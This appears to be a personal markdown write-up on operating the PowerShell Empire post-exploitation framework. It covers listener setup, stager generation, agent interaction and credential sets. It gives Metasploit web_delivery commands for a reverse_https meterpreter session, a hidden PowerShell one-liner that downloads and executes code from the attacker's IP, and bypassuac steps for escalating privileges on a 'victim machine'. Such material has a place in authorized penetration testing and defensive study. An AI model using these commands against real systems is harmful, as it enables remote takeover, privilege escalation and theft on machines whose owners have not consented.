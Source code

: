 #Empire
[Empire](https://github.com/adaptivethreat/Empire) is a "pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture."

Some links that helped me create my write-up below:

* [https://attackerkb.com/Powershell/Powershell_Empire](https://attackerkb.com/Powershell/Powershell_Empire)
* [https://enigma0x3.net/2016/03/15/phishing-with-empire/](https://enigma0x3.net/2016/03/15/phishing-with-empire/)
* [CheatSheets for various modules](https://github.com/HarmJ0y/CheatSheets)

###Install

The [getting started guide](http://www.powershellempire.com/?page_id=110) walks you through a basic install, but I found afterwards that my fresh Ubuntu droplet from Digital Ocean coughed up this error when I ran `./empire`:

>Traceback (most recent call last):

>File "./empire", line 6, in <module>

>from OpenSSL import SSL

>ImportError: No module named OpenSSL

Once I did a `sudo apt-get install python-openssl` then everything ran like a champ.

###Launch a listener
1. Type `listeners` and hit **Enter**
2. Setup an HTTP listener (for example) with `set Host http://your.local.ip.address` (tab completion works!)
3. Type `info` and hit Enter to confirm the listener is good to go.
4. Type `run` to run it

P.S. - [BHIS](http://bhis.co) has a nice tutorial for [scripting the startup of Empire listeners](http://www.blackhillsinfosec.com/?p=5428).

###Configure a stager
1. Type `usestager` and then hit **Tab** to see your options. I like the simple `usestager launcher` for a simple PowerShell one-liner
2. Assign the stager to a configured listener by typing `use Listener NAME-OF_LISTENER`
3. Type `generate` to actually generate it.

###Manage connected machines
Once you get a "bite" type `agents` to see connected machines.  Then do `interact NAME-OF-MACHINE` to begin interacting with it.

###Establish credential sets
I followed [this page](http://www.powershellempire.com/?page_id=114) to figure out how to add/edit credential sets into Empire so they're easily "pluggable" into Empire modules without having to type them every time.

###Create a secondary meterpreter listener
Follow [this article](http://www.powershellempire.com/?page_id=137) for more info, but basically in the `listeners` do a `set Host http://whatever.the.host.is` and `set Type meter`.  Then type `execute` and `list` to see your new listener.

Now on your Kali/Metasploit box, run the following commands to "catch" your incoming shell:

	use exploit/multi/script/web_delivery
	unset all
	set srvhost 0.0.0.0
	set srvport 80
	set lhost MY.PUBLIC.IP.ADDRESS
	set lport 443
	set target 2
	set payload windows/x64/meterpreter/reverse_https
	exploit -j

This will give you a PowerShell one-liner with something like:

`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://your-public-ip-address/V23fasdfg4rP5XBryb');
`
Launch the one-liner and you should be in happy shell land!

###Elevating privs
Once you've figured out a way to make your limited account a local admin, here's how you can make your victim machine connect to you *again* but this time with more privs!

1. While interacting with your agent, issue the command `bypassuac NAME-OF-LISTENER`.  So for example, my listener with my initial shell was called `test` so I issued `bypassuac test`
2. You should see a "new" agent connect to your listener, but this one has a *`*`* by it, indicating it is running w/elevated privs!!!